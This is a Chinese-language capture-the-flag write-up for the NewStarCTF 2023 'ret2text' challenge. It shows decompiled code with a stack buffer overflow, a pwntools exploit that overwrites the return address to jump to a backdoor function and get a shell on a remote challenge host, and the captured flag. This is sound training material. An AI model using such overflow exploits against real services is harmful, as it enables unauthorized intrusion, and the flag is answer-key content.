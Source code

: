 ```yaml
---
tags:
  - BuuCTF
  - 新手
---
```


# \[NewStarCTF 2023\] ret2text

## 前置工作

下载附件，用 IDA 64 打开，找到主函数并反汇编，得到如下伪代码

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char buf[32]; // [rsp+0h] [rbp-20h] BYREF

  init(argc, argv, envp);
  puts("Welcome to NewStar CTF!!");
  puts("Show me your magic");
  read(0, buf, 0x100uLL);
  return 0;
}
```

发现 buf 能被接受 0x100 个字节，但长度只有 0x20 字节，会出现栈溢出

## 找 `/bin/sh`

按 Shift + F12 打开字符串查找，找到关键字符串 `/bin/sh`，进入后按 Ctrl + X 找到函数，再按一次 F5 反汇编，找到了关键函数 `int backdoor()`，该函数的地址为 `0x4011FB`

## 编写 Exp

```python
from pwn import *

r = remote("node4.buuoj.cn", 29897)
backdoor_addr = 0x4011FB  # 函数 backdoor() 的地址
payload = b"A"*(0x20+8) + pack(backdoor_addr, 64) # 20 是栈，8 是 dup
r.sendline(payload)
r.interactive()
```

## 攻入靶机

获得权限后，`ls` 和 `cat flag` 一条龙得出最后结果 `flag{efcf1300-9ac4-4a30-84d9-ca717d570428}`
